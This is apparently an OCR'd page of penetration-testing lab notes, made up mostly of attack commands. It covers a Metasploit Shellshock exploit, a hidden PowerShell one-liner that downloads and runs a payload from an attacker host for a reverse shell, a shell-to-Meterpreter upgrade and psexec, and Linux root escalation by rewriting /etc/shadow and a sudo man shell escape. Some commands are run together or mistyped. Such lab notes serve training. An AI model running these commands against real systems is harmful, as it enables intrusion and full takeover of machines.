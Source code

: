                 **Metasploit**
                
                - `nmap -sV 192.19.208.3`
                - Exploit shellshock
                - `service postgresql start && msfconsole -q search shellshock use exploit/multi/http/apache_mod_cgi_bash_env_exec setg RHOSTS 192.19.208.3 setg RHOST 192.19.208.3 set TARGETURI /gettime.cgi run`
                - `use post/linux/gather/enum_configs`
                - `use post/linux/gather/enum_network`
                - `use post/linux/gather/enum_system`
                - `use post/linux/gather/checkvm`
        - Privilege Escalation
            
            - Windows
                - `nmap -sV 10.2.29.53`
                - `service postgresql start && msfconsole -q`
                - `setg RHOSTS 10.2.29.53 setg RHOST 10.2.29.53`
                - `search web_delivery use exploit/multi/script/web_delivery`
                - `set target PSH\\ (Binary) set payload windows/shell/reverse_tcp set PSH-EncodedCommand false set LHOST eth1 exploit`
                - `powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\\P4MPrq7y.exe')"; (new-object System.Net.WebClient).DownloadFile('<http://10.10.24.2:8080/y3MMtnMlRkQ81pA>', $z); invoke-item $z`
                - `sessions 1`
                - `whoami`
                - `background search shell_to use post/multi/manage/shell_to_meterpreter set LHOST eth1 set SESSION 1 show advanced set WIN_TRANSFER VBS options`
                - `run sessions 2`
                - `ps migrate 5048 get privs`
                - `cd C:\\\\Users\\\\student\\\\Desktop\\\\PrivescCheck shell dir`
                - `powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck”`
                - `powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%”`
                - `exit meterpreter > download PrivescCheck_ATTACKDEFENSE.txt`
                - [`psexec.py](<http://psexec.py/>) [administrator@10.2.29.53](<mailto:administrator@10.2.29.53>) cmd.exe`
                - `cd C:\\Users\\Administrator\\Desktop dir type flag.txt`
            - Linux
                - `whoami`
                - `find / -not -type l -perm -o+w`
                - `s -l /etc/shadow cat /etc/shadow`
                - `openssl passwd -1 -salt abc password123`
                - `vim /etc/shadow`
                - `su`
                - `cd ls cat flag`
                - Misconfigured sudo
                - `find / -user root -perm -4000 -exec ls -ldb {} \\;`
                - `find / -perm -u=s -type f 2>/dev/null`
                - `sudo -l`
                - `sudo man ls`
                - `!/bin/bash`
                - got root
                - get the flag
        - Persistence
            